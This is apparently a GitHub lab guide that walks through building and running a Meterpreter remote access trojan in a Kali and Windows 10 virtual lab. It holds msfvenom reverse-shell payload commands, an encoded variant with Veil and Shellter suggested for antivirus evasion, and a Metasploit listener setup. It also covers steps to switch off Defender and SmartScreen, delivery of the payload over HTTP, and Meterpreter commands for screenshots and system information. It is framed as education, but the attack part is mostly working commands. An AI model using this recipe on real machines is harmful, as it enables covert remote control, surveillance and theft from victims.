








# 🏗 Remote Access Trojan (RAT) Analysis Lab Guide

**Author:** Ayoub Faddil
**Purpose:** Educational practice on understanding RAT behavior in a controlled, offline lab environment.

---

## 🖥 1️⃣ Virtual Machine Setup

✅ **Attacker VM** → Kali Linux (latest version)
✅ **Victim VM** → Windows 10 (clean install, no personal data)

* Download and install **VirtualBox** or **VMware**.
* Set up both VMs.
* Configure **internal network only** (no internet):

  * VirtualBox → VM Settings → Network → Internal Network.

    

  * Set static IPs:

    * On Windows: Go to `Network & Sharing Center → Adapter settings → IPv4 → Set static IP (e.g., 192.168.1.20, mask 255.255.255.0)`.

      

    * On Kali:

      ```bash
      sudo ip addr add 192.168.1.10/24 dev eth0
      sudo ip link set eth0 up
      ```

      

---

## 🛠 2️⃣ Prepare Tools

**On Kali (attacker):**

* Update system:

  ```bash
  sudo apt update && sudo apt upgrade
  ```
* Use **Metasploit Framework** (preinstalled on Kali):

  ```bash
  msfconsole
  ```

**On Windows (victim):**

* Download Sysinternals tools:

  * **Process Explorer** → monitor processes.
  * **Autoruns** → check startup persistence.
* Install **Wireshark** → capture network traffic.

---

## ⚙ 3️⃣ Generate RAT Payload (Basic)

On Kali, run:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe -o rat_test.exe
```

* Replace `<Kali_IP>` with Kali’s internal network IP (`ifconfig`).
* This creates `rat_test.exe`.
  

⚠ **Note:** This payload is basic and may be detected by Windows Defender or antivirus.

---

## 🚀 4️⃣ Advanced (Bypass AV) Payload Option

For more stealth, try an **encoded payload** or using an external tool like **Veil** or **Shellter**.

### 🔥 Example: msfvenom with encoding

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o rat_encoded.exe
```

✅ `-e x86/shikata_ga_nai`: encoder to obfuscate payload
✅ `-i 10`: encode 10 iterations (higher = more obfuscation)

👉 May bypass basic AV, but modern Windows Defender will still detect in most cases.

For better evasion:

* Use **Veil-Framework**:

  ```bash
  sudo apt install veil
  veil
  ```

  Then generate a payload from its interface.

OR

* Use **Shellter** (needs Wine):

  ```bash
  sudo apt install wine
  wine shellter.exe
  ```

---

## 🚀 5️⃣ Set Up Listener

In Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Kali_IP>
set LPORT 4444
run
```

This will wait for the victim to connect.



---

## 🐁 6️⃣ Simulate Infection

* Transfer `rat_encoded.exe` (or `rat_test.exe`) to the Windows VM (via shared folder or virtual USB).

* OR Python HTTP server on Kali:
         Steps to Fully Disable Protection on Windows 10 (Offline Lab)

  1. **Disable SmartScreen (Windows Security UI):**

     * Go to `Windows Security → App & Browser Control`.
     * Under **Check apps and files**, set to **Off**.
     * Under **SmartScreen for Microsoft Edge**, set to **Off**.
     * Under **SmartScreen for Microsoft Store apps**, set to **Off**.

  2. **Disable Real-time protection (again if it re-enabled):**

     * `Windows Security → Virus & threat protection`.
     * Turn off **Real-time protection**, **Cloud-delivered protection**, and **Automatic sample submission**.

  3. **Verify Defender is OFF (PowerShell):**
     Run:

     ```
     Get-MpPreference
     ```

     Make sure these are set:

     ```
     DisableRealtimeMonitoring : True
     SubmitSamplesConsent     : 2
     MAPSReporting            : 0

     ```

  4. **Deliver via Python HTTP server:**
     On Kali:

     ```
     python3 -m http.server 8000
     ```

     Then on Windows (in browser or PowerShell):

     ```
     Invoke-WebRequest -Uri http://<Kali_IP>:8000/rat_encoded.exe -OutFile C:\Users\Public\rat_encoded.ex
     ```

     

* **Run the file** on Windows (safe offline lab only).

⚠ Disable Windows Defender temporarily if testing without evasion.

---

## 🔍 7️⃣ Observe and Analyze

**On Windows:**
✅ Open **Process Explorer** → find the new process.
✅ Run `netstat -ano` → check active connections.
✅ Use **Wireshark** → monitor the callback traffic.
✅ Check **Autoruns** → see if persistence is added.

**On Kali:**
✅ Use Meterpreter:

```bash
sessions -i 1
```

✅ Run commands:

* `sysinfo` → system info.
* `getuid` → current user.
* `screenshot` → capture screen (inside lab only).
  

  

---